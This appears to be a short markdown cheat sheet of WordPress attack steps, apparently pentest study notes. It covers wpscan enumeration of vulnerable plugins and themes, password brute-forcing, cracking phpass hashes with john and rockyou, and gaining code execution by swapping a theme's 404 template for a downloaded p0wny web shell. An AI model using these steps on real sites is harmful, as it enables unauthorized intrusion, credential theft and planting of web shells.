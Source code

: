 # Wordpess

### Enumerating vulnerable plugins

```
wpscan --url targethost.com.br --api-token TOKEN --enumerate vp --plugins-detection aggressive
```

### Enumerating vulnerables themes

```
wpscan --url targethostt.com.br --api-token TOKEN --enumerate vt --plugins-detection aggressive
```

### Breaking md5 hash (possible wordpress hash) with john

```
john --format=phpass --wordlist=/usr/share/wordlists/rockyou.txt hash
```

```
# Scan
wpscan --rua -e --url <URL>

# Brute force user(s)
wpscan --rua --url <URL> -P <PASSWORDS_LIST> -U "<USER>,<USER>"
```

### **Wordpress panel RCE**

```
Modifying a php from the theme used (admin credentials needed)

Appearance -> Editor -> 404 Template (at the right)
Change the content for a php shell
https://raw.githubusercontent.com/flozz/p0wny-shell/master/shell.php
http://<IP>/wp-content/themes/twentytwelve/404.php
```
